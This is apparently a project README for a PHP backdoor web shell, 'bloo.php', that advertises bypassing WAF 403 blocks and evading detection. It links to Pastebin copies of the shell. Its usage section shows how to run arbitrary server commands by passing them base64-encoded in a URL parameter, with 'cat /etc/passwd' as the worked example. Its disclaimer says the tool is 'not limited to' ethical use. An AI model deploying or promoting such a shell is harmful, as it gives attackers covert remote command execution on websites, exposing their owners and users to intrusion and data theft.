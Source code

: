 # About

This RCE Payload/Backdoor Shell is made to bypass WAF 403 errors. This is also undetected in most websites.

## Pastebin Links
[bloo.php](https://pastebin.com/raw/dYB6V61V)
[bloopassthru.php](https://pastebin.com/raw/qjF1ECwj)

## Usage

```
bloo.php?bloo=[INSERT BASE64 ENCODED COMMAND]

example: cat /etc/passwd
convert: cat /etc/passwd -> Base64Encode -> Y2F0IC9ldGMvcGFzc3dk

bloo.php?bloo=Y2F0IC9ldGMvcGFzc3dk
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Discalimer
This is made for but *not limited to* ethical purposes. I am not liable to any misusage of this.

## License
[Bloos3rpent](https://twitter.com/blooserpent)
